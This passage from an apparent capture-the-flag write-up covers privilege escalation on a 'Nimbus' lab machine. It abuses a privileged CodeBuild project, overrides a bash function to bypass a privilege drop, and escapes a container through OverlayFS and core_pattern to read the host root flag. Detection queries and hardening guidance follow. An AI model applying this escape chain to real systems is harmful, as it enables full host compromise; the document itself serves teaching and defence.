At this stage, control of the worker container had been established, providing access to the user flag and a platform for investigating privilege escalation opportunities.


## Privilege Escalation

### Container Enumeration

Following the worker compromise, the container environment was examined to determine whether a direct privilege escalation path existed.

Enumeration revealed a deliberately restricted execution environment:

* No effective Linux capabilities were assigned to the worker process.
* No Docker socket was mounted inside the container.
* No containerd socket was exposed.
* No writable host mounts were present.

The user flag was accessible from:

```text
/home/worker/user.txt
```


However, the root flag remained inaccessible:

```text
/root/root.txt
```

Traditional container escape vectors were therefore unavailable.

Rather than escalating within the worker container itself, the attack path shifted back toward the internal AWS infrastructure discovered earlier.


#### Discovering the Internal Build System

The worker container had direct access to the internal AWS emulator through:

```text
http://floci:4566
```

Enumeration of available services revealed support for AWS CodeBuild functionality.

Because the worker already possessed valid credentials and network access to the emulator, it was possible to interact directly with the build service.

This introduced a new trust boundary.



Instead of attacking the worker container, the objective became obtaining execution inside a build environment that might have weaker restrictions.

A new CodeBuild project was created through the CodeBuild API.

The project configuration contained several important characteristics:

* No source repository required
* No artifacts required
* Custom build instructions allowed
* Privileged mode enabled

The most significant setting was:

```python
"privilegedMode": True
```

Privileged containers receive substantially more access to the underlying system than ordinary containers and are frequently used when Docker operations must occur inside a build environment.

Once the project was created successfully, arbitrary builds could be launched on demand.



#### Investigating the Build Environment

The configured build image was:

```text
floci/floci:latest
```

Initial testing indicated that the image attempted to reduce privileges during startup.

The entrypoint contained logic intended to determine whether execution should continue as root or transition to a lower-privileged user.

However, the decision relied on the output of the `id` command.

This created an opportunity to influence the privilege check.


#### Bypassing the Privilege-Drop Logic

Instead of modifying the container image itself, the build was started with a crafted environment variable.

Bash supports exported shell functions that can override command execution within child processes.

A function named `id` was supplied through the build configuration.

```text
BASH_FUNC_id%%
```

The overridden implementation returned:

```text
uid=1000
```

When the entrypoint executed its privilege validation routine, it observed the expected non-root output and continued execution without dropping privileges.

The actual process, however, remained running as UID 0.

As a result, the build container retained full root privileges despite the protection mechanism.

The build was started successfully and CodeBuild provisioned a new privileged container.

The returned metadata confirmed successful startup:

```text
buildStatus: IN_PROGRESS
projectName: nimbus-root
```

The environment variable override was visible in the build configuration:

```text
BASH_FUNC_id%% = () { echo uid=1000; }
```

At this point the attack had progressed beyond the original worker container and achieved root execution inside a privileged build environment.



#### Verifying the Build Environment

With root access inside the build container established, the next objective was escaping container isolation and reaching the underlying host.

Inspection of the filesystem and mount configuration revealed that the container root filesystem was backed by OverlayFS.



)

Examining `/proc/self/mountinfo` showed:

```text
overlay ... upperdir=/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/166/fs
```

The `upperdir` value is particularly important because it represents the writable layer of the container and is visible from the host.

Files written inside the container therefore appear within a host-backed directory.

This property provides a bridge between container-controlled content and host-visible files.





#### Leveraging OverlayFS

The writable OverlayFS layer was extracted directly from the mount configuration.

```bash
UDIR=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/self/mountinfo | head -1)
```

This produced a path similar to:

```text
/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/166/fs
```

Anything written to this location from inside the container would also exist on the host.

This host-visible path became the foundation of the container escape.


#### Abusing `core_pattern`

Linux exposes the following kernel configuration:

```text
/proc/sys/kernel/core_pattern
```

This setting determines how the kernel handles process crash dumps.

When configured with a leading pipe character (`|`), the kernel launches the specified helper program whenever a process crashes.

Because the build container retained elevated privileges, it was able to modify this setting.

A helper script was created within the container and written into the OverlayFS writable layer.

The script's purpose was straightforward:

1. Read `/root/root.txt`
2. Copy its contents into the OverlayFS writable layer
3. Make the resulting file readable from within the container

The helper was then referenced using its host-visible OverlayFS path.

Finally, `core_pattern` was updated so that future crashes would invoke the helper.


#### Triggering Host Execution

After configuring the crash handler, a segmentation fault was intentionally generated.

When the crash occurred, the kernel processed the event and launched the configured helper.

Because the helper was executed by the host kernel, execution occurred in the host context rather than the container context.

This effectively crossed the container boundary.

The helper executed as host root and copied the contents of:

```text
/ root/root.txt
```

into the OverlayFS writable layer.

The resulting file immediately became visible from within the build container.

Reading the copied file provided access to the root flag.


#### Root Access Summary

The complete privilege escalation chain was:

| Step | Component        | Technique                         | Result                      |
| ---- | ---------------- | --------------------------------- | --------------------------- |
| 1    | Worker Container | Code Execution                    | Access as `worker`          |
| 2    | AWS Emulator     | CodeBuild Abuse                   | Build project creation      |
| 3    | CodeBuild        | Privileged Container              | Root inside build container |
| 4    | Entrypoint Logic | Environment Variable Manipulation | Bypass privilege drop       |
| 5    | OverlayFS        | Writable Layer Discovery          | Host-visible storage        |
| 6    | Linux Kernel     | `core_pattern` Abuse              | Host code execution         |
| 7    | Host System      | Root File Access                  | Retrieval of `root.txt`     |

#### Key Lessons

* Hostname redirects should always be followed during enumeration.
* Health-check endpoints frequently expose internal infrastructure details.
* SSRF filters often fail to normalize alternate IP address representations.
* File-extension validation can sometimes be bypassed through query strings.
* Temporary IAM credentials can be highly valuable even when narrowly scoped.
* Access to a writable queue and an active worker frequently leads to code execution.
* Backend job schemas are often more powerful than the public web interface suggests.
* A restricted container may still provide a path into a more privileged service.
* Privileged containers significantly expand the attack surface.
* OverlayFS and kernel crash handlers can combine to create container escape opportunities.


## Defensive Operations


# Defensive Operations

## Strategic Overview

### 1.1 Definition

A multi-stage cloud-native compromise chain leveraging **Server-Side Request Forgery (SSRF)** against a job scheduling platform, **AWS Instance Metadata Service (IMDS) credential theft**, **SQS worker abuse**, **unsafe job execution**, and **privileged CodeBuild container escalation** to ultimately achieve **host-level root compromise through OverlayFS and Linux kernel crash-handler abuse**.

### 1.2 Impact

Complete compromise of the Nimbus infrastructure, enabling control over:

* Nimbus Job Scheduler
* Internal AWS Emulator (Floci)
* SQS Worker Infrastructure
* CodeBuild Service
* Privileged Build Containers
* Underlying Linux Host
* Application IAM Roles
* Sensitive Application Data

### 1.3 The Scenario

An attacker begins with unauthenticated access to the Nimbus web application.

A vulnerable job preview feature performs server-side URL retrieval, allowing attackers to abuse SSRF functionality. By bypassing internal resource restrictions through alternate IP encoding, the attacker reaches the AWS Instance Metadata Service and retrieves temporary IAM credentials.

The stolen credentials provide access to an internal SQS queue responsible for distributing jobs to worker containers. Because worker jobs permit arbitrary Python execution, the attacker gains code execution as the worker service account.

Although the worker container is heavily restricted, internal AWS credentials and service discovery reveal access to an AWS emulator exposing CodeBuild functionality. By creating a privileged build project and bypassing an insecure privilege-dropping mechanism, the attacker obtains root execution inside a privileged build container.

Finally, OverlayFS host visibility and Linux kernel `core_pattern` abuse are combined to escape container isolation and execute commands as root on the underlying host system.


## System Architecture

### 2.1 Protocol Environment

* HTTP/HTTPS
* SSH
* AWS Instance Metadata Service (IMDS)
* AWS STS
* AWS SQS
* Internal AWS Emulator (Floci)
* AWS CodeBuild
* Docker / Containerd
* OverlayFS
* Linux Kernel Crash Handling (`core_pattern`)

### 2.2 Attack Logic Flow

> [SSRF] -> [IMDS Credential Theft] -> [IAM Role Abuse] -> [SQS Message Injection] -> [Worker Code Execution] -> [Worker Role Enumeration] -> [Internal AWS Discovery] -> [CodeBuild Abuse] -> [Privileged Container] -> [Entrypoint Bypass] -> [OverlayFS Enumeration] -> [core_pattern Abuse] -> [Host Root Execution]

### 2.3 Theoretical Analogy

The attack resembles compromising a cloud-based CI/CD environment through a vulnerable frontend service.

A seemingly harmless job-preview feature exposes internal cloud metadata. Those credentials grant access to a task queue, which in turn controls backend workers. The worker environment acts as a stepping stone into a trusted build platform.

The build platform becomes equivalent to a maintenance tunnel inside the infrastructure. Once a privileged build container is obtained, weaknesses in container isolation allow the attacker to reach the host operating system itself.


## Attack Vector

| Attribute                    | Technical Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| :--------------------------- | :----------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers**      | `SSRF (/jobs/preview)`<br>`AWS IMDS Credential Exposure`<br>`SQS Message Injection`<br>`Python Job Execution`<br>`CodeBuild Privileged Containers`<br>`OverlayFS Upperdir Exposure`<br>`Linux core_pattern Abuse`                                                                                                                                                                                                                                                                                             |
| **Critical Vulnerabilities** | - Insufficient SSRF protections<br>- IMDS accessible from application layer<br>- Over-privileged IAM role permissions<br>- Untrusted job execution model<br>- Privileged CodeBuild containers<br>- Insecure privilege-drop implementation<br>- Host-visible OverlayFS writable layer                                                                                                                                                                                                                          |
| **Offensive Actions**        | 1. Exploit SSRF in job preview functionality.<br>2. Bypass internal URL restrictions using alternate IP encoding.<br>3. Retrieve temporary AWS credentials from IMDS.<br>4. Enumerate internal AWS services.<br>5. Send malicious jobs to SQS queue.<br>6. Obtain worker container code execution.<br>7. Discover internal CodeBuild service.<br>8. Create privileged build project.<br>9. Bypass entrypoint privilege controls.<br>10. Abuse OverlayFS and kernel crash handling to obtain host root access. |


## Prerequisites

### Access Level

* Unauthenticated web access
* Ability to submit job-preview requests
* Reachability to Nimbus web services

### Connectivity

* HTTP (80)
* Internal AWS Emulator
* SQS Infrastructure
* CodeBuild Services

### Target State

* SSRF reachable metadata service
* IAM role attached to web application
* Worker processing queue entries
* Internal AWS emulator exposed to workers
* Privileged build functionality enabled
* Writable kernel crash handler configuration


## Threat Hunting & Anomaly Analysis

### Hunt Hypothesis

Attackers will attempt to leverage cloud metadata exposure and backend automation workflows to pivot from public-facing applications into internal infrastructure and ultimately the host operating system.

### Behavioral Outliers

* Requests targeting numeric or encoded representations of internal IP addresses.
* Excessive access to metadata service paths.
* Unusual SQS message creation by web-facing IAM roles.
* Worker execution of unexpected Python payloads.
* Creation of new CodeBuild projects by worker identities.
* CodeBuild jobs using privileged containers.
* Modifications to `/proc/sys/kernel/core_pattern`.
* Unexpected process crashes followed by privileged script execution.

### Toxic Combinations

* SSRF + IMDS Exposure
* IAM Credentials + Queue Write Access
* Queue Injection + Arbitrary Script Execution
* Privileged Containers + OverlayFS Visibility
* Root Container Access + Writable `core_pattern`
* CI/CD Infrastructure + Host Resource Access


## Detection Engineering

### Telemetry Gap Analysis

Effective detection requires correlation across:

* Web application request logs
* Metadata service access logs
* IAM role activity
* SQS queue operations
* Worker execution telemetry
* CodeBuild project creation events
* Container runtime logs
* Linux kernel configuration changes

Critical Events:

* Metadata service access
* SQS SendMessage activity
* CodeBuild CreateProject operations
* CodeBuild StartBuild operations
* Container privilege escalation events
* Changes to `/proc/sys/kernel/core_pattern`


### Detection-as-Code (KQL)

```kql
// Detect possible IMDS SSRF attempts
AppRequests
| where Url contains "/jobs/preview"
| where RequestBody has_any ("169.254.169.254","2852039166","0251.0376")
| project TimeGenerated, ClientIP, RequestBody
```

```kql
// Detect suspicious SQS message creation by web roles
AWSCloudTrail
| where EventName == "SendMessage"
| summarize count() by UserIdentityArn, bin(TimeGenerated, 10m)
| where count_ > 5
```

```kql
// Detect privileged CodeBuild projects
AWSCloudTrail
| where EventName == "CreateProject"
| where RequestParameters contains "privilegedMode"
```

```kql
// Detect modification of kernel crash handler
Syslog
| where ProcessName in ("echo","bash","sh")
| where CommandLine contains "core_pattern"
```


## Resilience Test

Attackers may bypass detection by:

* Using encoded IP representations to evade SSRF signatures.
* Leveraging temporary IAM credentials before expiration.
* Blending malicious jobs into legitimate queue traffic.
* Creating short-lived build projects.
* Using build containers as disposable attack infrastructure.
* Triggering host execution through kernel mechanisms rather than traditional container escapes.

### Countermeasures

* Enforce IMDSv2.
* Block metadata access from application containers.
* Restrict queue write permissions.
* Validate job definitions against strict schemas.
* Disable privileged builds unless operationally required.
* Prevent container access to kernel configuration interfaces.
* Monitor OverlayFS-backed container environments.


## Toolkit & Implementation

### Automation

* Burp Suite
* FFUF
* AWS CLI
* Python Requests
* Boto3
* SQS APIs
* Docker / Container Enumeration Tools
* Linux Forensics Utilities

### OPSEC Analysis

* Metadata requests resemble normal cloud activity.
* Temporary credentials reduce visibility compared to static keys.
* Queue injection appears as legitimate application behavior.
* Build pipelines are trusted infrastructure and often receive less scrutiny.
* Host compromise occurs indirectly through kernel functionality rather than conventional privilege escalation exploits.


## Defensive Mechanism

### Technical Hardening

#### 1. Harden SSRF Controls

* Implement strict allowlists.
* Block requests to RFC1918 and metadata networks.
* Normalize alternate IP encodings before validation.

#### 2. Protect Metadata Services

* Require IMDSv2.
* Restrict metadata access using network controls.
* Monitor metadata retrieval attempts.

#### 3. Secure Queue Infrastructure

* Enforce least-privilege IAM policies.
* Separate producer and consumer permissions.
* Validate job content before execution.

#### 4. Harden Build Systems

* Disable privileged mode wherever possible.
* Restrict project creation permissions.
* Validate build environment variables.

#### 5. Protect Host Systems

* Restrict modification of kernel parameters.
* Harden container runtime configuration.
* Monitor OverlayFS writable-layer interactions.
* Disable unnecessary crash-handler functionality.


## QUICK-ACTION PLAYBOOK

| Step | Objective                | Command / Logic                                            |
| :--: | :----------------------- | :--------------------------------------------------------- |
|  01  | Detect Metadata Access   | Search logs for IMDS requests and alternate IP encodings   |
|  02  | Audit IAM Roles          | Review permissions assigned to web and worker services     |
|  03  | Monitor Queue Activity   | Investigate unusual SQS message generation                 |
|  04  | Audit CodeBuild Usage    | Identify privileged build projects and custom buildspecs   |
|  05  | Check Container Runtime  | Review OverlayFS and privileged container configurations   |
|  06  | Verify Kernel Protection | Audit access to `/proc/sys/kernel/core_pattern`            |
|  07  | Hunt Host Escapes        | Correlate build execution with host-level process creation |
